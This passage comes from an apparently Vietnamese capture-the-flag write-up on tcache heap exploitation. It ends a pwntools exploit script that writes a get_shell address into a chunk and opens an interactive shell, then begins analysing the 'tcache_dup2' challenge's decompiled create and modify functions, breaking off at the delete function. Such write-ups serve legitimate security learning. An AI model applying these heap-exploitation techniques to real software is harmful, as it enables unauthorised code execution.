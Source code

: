 p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'Size: ',b'200')
p.sendlineafter(b'Data: ',b'aaaaa')

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'Size: ',b'200')
p.sendlineafter(b'Data: ',p64(exe.sym.get_shell))

p.interactive()
```

-------------

18 . tcache_dup2
----------------------

phân tích
bài này cũng giống bài tcache_dup , tuy nhiên có 1 số điểm khác =))

có 3 option cần phân tích : create, delete , modify
modify:
nó bắt ta nhập idx vào , check xem nếu lớn hơn 6 thì exit , tiếp theo là size , và dữ liệu cần chỉnh sửa
```
unsigned __int64 modify_heap()
{
  size_t size; // [rsp+8h] [rbp-18h] BYREF
  unsigned __int64 v2; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("idx: ");
  __isoc99_scanf("%ld", &v2);                   // nhập idx cần chỉnh sửa
  if ( v2 > 6 )
    exit(0);
  printf("Size: ");
  __isoc99_scanf("%ld", &size);                 // nhập size 
  if ( size > 0x10 )
    exit(0);
  printf("Data: ");
  read(0, *((void **)&ptr + v2), size);         // read dữ liệu vào 
  return __readfsqword(0x28u) ^ v3;
}
create :

đơn giản chỉ là nhập 1 size tùy thích , malloc với cái size đó , read dữ liệu vào

unsigned __int64 __fastcall create_heap(int a1)
{
  size_t size; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  if ( a1 > 6 )                                 // nếu tạo 7 thì exit
    exit(0);
  printf("Size: ");
  __isoc99_scanf("%ld", &size);                 // nhập size tùy ý
  *((_QWORD *)&ptr + a1) = malloc(size);        // malloc với size tùy ý vừa nhập
  if ( !*((_QWORD *)&ptr + a1) )
    exit(0);
  printf("Data: ");
  read(0, *((void **)&ptr + a1), size - 1);     // read dữ liệu vào size-1
  return __readfsqword(0x28u) ^ v3;
}
```

delete :
```